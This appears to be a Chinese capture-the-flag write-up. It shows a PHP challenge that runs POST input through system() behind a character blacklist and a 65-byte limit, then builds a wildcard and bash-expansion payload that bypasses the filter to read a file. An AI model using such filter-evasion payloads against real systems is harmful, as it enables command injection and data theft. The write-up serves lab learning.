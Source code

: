 ```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```

限制了长度

我看一下上一题payload的长度



![image-20240429105325042](image/image-20240429105325042.png)

这肯定不行

上题修改一下只用user的最后一位t,然后发现多了一位

```
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}?${USER:~A}? ????.???
```

现在分析一下，必须要有的元素`????.???`这就占用了9个（有一个空格），`${USER:~A}`这个是要有的，然后是五个问号，就是24个，还剩41个字节，也就是20个字节构建出一个`/`

```
${PWD:${#}:${#SHLVL}}我们去掉${#}试一下
得到的也是/
长度是17，符合条件
```

构建payload

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```

![image-20240429110311594](image/image-20240429110311594.png)

![image-20240429110330717](image/image-20240429110330717.png)
